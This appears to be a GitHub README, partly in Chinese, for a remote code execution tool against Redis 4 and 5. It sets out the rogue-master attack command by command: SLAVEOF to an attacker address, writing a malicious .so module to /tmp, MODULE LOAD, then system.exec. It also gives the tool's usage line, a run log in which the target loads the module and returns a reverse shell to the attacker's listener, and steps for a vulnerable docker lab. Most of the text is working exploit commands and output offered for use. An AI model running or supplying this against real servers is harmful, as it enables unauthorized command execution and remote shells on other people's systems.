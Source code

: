 # Redis-RCE
### remote code execute for redis4 and redis5


#### python code from https://github.com/Ridter/redis-rce

![](./redis-rce.jpg)
#####  通过加载so文件，扩展新命令system.exec进行 命令执行成功
`strings exp_lin.so |grep sys`

```
system
system.exec
sys_errlist.h
sys_nerr
sys_errlist
_sys_siglist

```

![](./redis-exec.jpg)
![](./redis-exec-result.jpg)

### system.exec
![](./redis-system-exec.jpg)

```
0x01 SLAVEOF 192.168.2.18 8989

0x02 config set dir /tmp

0x03 config set dbfilename exp_lin.so

0x04 MODULE LOAD /tmp/exp_lin.so

0x05 slaveof no one

0x06 system.exec id

���Auid=100(redis) gid=101(redis) groups=101(redis),101(redis)

```
### Usage:

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

```
python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so
test
[*] Connecting to  10.10.20.166:6379...
[*] Listening on 192.168.2.18:21000
[*] Sending SLAVEOF command to server
Accepted connection from 192.168.2.18:3147
[*] Setting filename
[*] Tring to run payload
Accepted connection from 192.168.2.18:21000
[*] Closing rogue server...
Received backconnect, use exit to exit...
$

$ id
uid=100(redis) gid=101(redis) groups=101(redis),101(redis)
$ pwd
/tmp
$ ls
exp_lin.so
exp_osx.so
$


```
https://redis-module-redoc.readthedocs.io/en/latest/



### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 docker pull redis5
```
docker pull hareemca123/redis5:alpine
alpine: Pulling from hareemca123/redis5
4fe2ade4980c: Pull complete 
47fa4eeb2853: Pull complete 
4e971ebf579e: Pull complete 
e2187b6a3d91: Pull complete 
b944fad88755: Pull complete 
9b71ca914208: Pull complete 
Digest: sha256:60f6a913f606341be11686f604ef97d79be32d6ee22f5036ea592423e0950ca4
Status: Downloaded newer image for hareemca123/redis5:alpine

```
### 0x03 Start redis5 docker
```
docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine

cf1e25077f6e5f88e6ba6a5ae4bcc17e38c27a28961f52932ad7c77c3fc446d9
```


### 0x04 git clone github.com/Ridter/redis-rce


```
redis-rce# ls
exp_lin.so  exp_osx.so  README.md  redis-rce.py
```
### 参考链接：

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

https://github.com/Ridter
